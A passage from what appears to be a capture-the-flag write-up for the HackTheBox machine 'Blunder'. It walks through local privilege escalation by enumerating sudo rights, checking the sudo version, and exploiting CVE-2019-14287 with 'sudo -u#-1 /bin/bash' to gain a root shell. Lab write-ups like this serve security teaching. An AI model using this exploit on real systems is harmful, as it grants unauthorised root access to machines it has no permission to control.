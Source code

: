 ### Enumeration

`sudo -l` gives something interesting:

    
    
    hugo@blunder:~$ sudo -l
    Password: 
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

This means that I can run `sudo /bin/bash` as any user except for root, which
is a shame, as root is the user I want to run it as.

### CVE-2019-14287

The configuration above is supposed to stop `sudo` as running as the root
user. There was a public CVE release in November 2019 about how there were
other ways to enter root besides `root` that got around this restriction. This
impacts `sudo` versions before 1.8.28. I can see Blunder is running 1.8.25:

    
    
    hugo@blunder:~$ sudo --version
    Sudo version 1.8.25p1
    Sudoers policy plugin version 1.8.25p1
    Sudoers file grammar version 46
    Sudoers I/O plugin version 1.8.25p1
    

When running `sudo`, you can enter `-u [user]` to say which user to run as.
You can also enter the user as a number in the format `-u#[uid]`. root is used
id 0, so I can try:

    
    
    hugo@blunder:~$ sudo -u#0 /bin/bash
    Password: 
    Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
    

So far things are working as expected. The vulnerability is that I can enter
user id -1, and `sudo` will treat that as root. It works:

    
    
    hugo@blunder:~$ sudo -u#-1 /bin/bash
    Password:
    root@blunder:/home/hugo#
    

Now I can grab `root.txt`:

    
    
    root@blunder:/root# cat root.txt
    2f1f6d99************************
    

[](/2020/10/17/htb-blunder.html)

